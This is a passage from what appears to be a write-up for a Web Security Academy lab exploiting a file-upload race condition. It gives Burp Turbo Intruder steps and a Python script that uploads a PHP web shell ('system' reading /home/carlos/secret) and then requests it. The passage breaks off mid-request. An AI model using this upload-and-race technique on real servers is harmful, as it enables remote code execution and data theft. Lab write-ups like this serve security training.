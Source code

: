 ```
5. If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
6. Right-click on the *POST /my-account/avatar* request that was used to submit the file upload and select **Extensions > Turbo Intruder > Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:
    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

        request1 = '''POST /my-account/avatar HTTP/1.1
    Host: 0a5800fd0486a9fcc19421f7005b00a5.web-security-academy.net
    Cookie: session=Sa2wTScQmkrtqjubgL49o18hvzNv9Y6A
    Content-Length: 409
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Upgrade-Insecure-Requests: 1
    Origin: https://0a5800fd0486a9fcc19421f7005b00a5.web-security-academy.net
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfQhC1hjGQEWZFiRu
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a5800fd0486a9fcc19421f7005b00a5.web-security-academy.net/my-account
    Accept-Encoding: gzip, deflate
    Accept-Language: cs-CZ,cs;q=0.9
    Connection: close

    ------WebKitFormBoundaryfQhC1hjGQEWZFiRu
    Content-Disposition: form-data; name="avatar"; filename="pokus.php"
    Content-Type: application/octet-stream

    <?php system('cat /home/carlos/secret'); ?>
    ------WebKitFormBoundaryfQhC1hjGQEWZFiRu
    Content-Disposition: form-data; name="user"

    wiener
    ------WebKitFormBoundaryfQhC1hjGQEWZFiRu
    Content-Disposition: form-data; name="csrf"

    e5yYfZ31CDic45UJkaGjFACU06uMfr2H
    ------WebKitFormBoundaryfQhC1hjGQEWZFiRu--\r\n\r\n
    '''

        request2 = '''GET /files/avatars/pokus.php HTTP/1.1
    Host: 0a5800fd0486a9fcc19421f7005b00a5.web-security-academy.net
    Cookie: session=Sa2wTScQmkrtqjubgL49o18hvzNv9Y6A
    Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
    Sec-Ch-Ua-Platform: "macOS"
    Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: no-cors
    Sec-Fetch-Dest: image
    Referer: https://0a5800fd0486a9fcc19421f7005b00a5.web-security-academy.net/my-account
    Accept-Encoding: gzip, deflate
    Accept-Language: cs-CZ,cs;q=0.9
```